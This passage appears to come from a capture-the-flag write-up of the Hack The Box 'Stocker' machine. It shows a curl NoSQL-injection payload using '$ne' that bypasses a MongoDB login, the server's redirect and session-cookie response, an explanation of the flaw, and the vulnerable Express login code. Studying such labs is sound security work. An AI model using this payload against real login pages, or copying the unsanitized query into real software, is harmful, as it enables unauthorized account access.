 ```shell
curl "http://dev.stocker.htb/login" -H "Content-Type: application/json" -d '{"username": {"$ne": null}, "password": {"$ne": null} }'

* Connected to dev.stocker.htb (10.10.11.196) port 80 (#0)
> POST /login HTTP/1.1
> Host: dev.stocker.htb
> Content-Type: application/json
> ...
>
< HTTP/1.1 302 Found
< Server: nginx/1.18.0 (Ubuntu)
< X-Powered-By: Express
< Location: /stock
< Set-Cookie: connect.sid=s%3AqGMRmpDVrXcgo8u6P8cvnkxXulrDf2xh.EJzRuuoN6u0mVuOXo449k1SVf%2FBDed2jDyB4Sq3p1Kk; Path=/; HttpOnly
< ...
* Connection #0 to host dev.stocker.htb left intact
Found. Redirecting to /stock
```

#### But why this occurs? 

- Well, the server **doesn't restrict the Content-Type** of the request in the first place. This allow us to send JSON data in it's body.
- Secondly, the server **understands the JSON** sent and uses it to authenticate the user. 
- Finally, the data is **not sanitized at all**, allowing us to manipulate the query expression.


Later on, we can access the source of the server in `/var/www/dev/index.js`. Analyzing the code, we discover the snippet of authentication: 

```js 
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

// ...

app.post("/login", async (req, res) => {
  const { username, password } = req.body;
  
  if (!username || !password) return res.redirect("/login?error=login-error");

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

  console.log(req.session);

  return res.redirect("/stock");
});
```
